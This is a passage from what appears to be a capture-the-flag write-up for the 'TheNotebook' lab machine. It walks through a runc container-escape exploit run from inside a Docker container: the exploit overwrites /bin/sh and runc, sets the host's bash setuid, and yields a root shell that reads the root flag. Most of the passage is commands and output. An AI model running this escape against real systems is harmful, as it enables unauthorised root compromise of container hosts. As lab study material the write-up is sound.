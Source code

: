 ```php
2021-07-31 09:44:24 (3.78 MB/s) - ‘main’ saved [2140271/2140271]

# chmod +x ./main
# ./main
[+] Overwritten /bin/sh successfully
```

On the host we connect to the docker like we did before but this time it obviously does not work because `/bin/sh` has been overwritten.

```php
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 sh
No help topic for '/bin/sh'
```

Inside the container we see that it successfully got the file handle... 

```php
# ./main
[+] Overwritten /bin/sh successfully
[+] Found the PID: 510
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc000423500}
```

... and looking on the host again we see that runc was successfully overwritten and our payload was executed.

```php
noah@thenotebook:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Now we can just drop into a rootshell and add the flag to our collection.

```php
noah@thenotebook:~$ bash -p
bash-4.4# id 
uid=1000(noah) gid=1000(noah) euid=0(root) egid=0(root) groups=0(root),1000(noah)
bash-4.4# wc -c /root/root.txt 
33 /root/root.txt
```
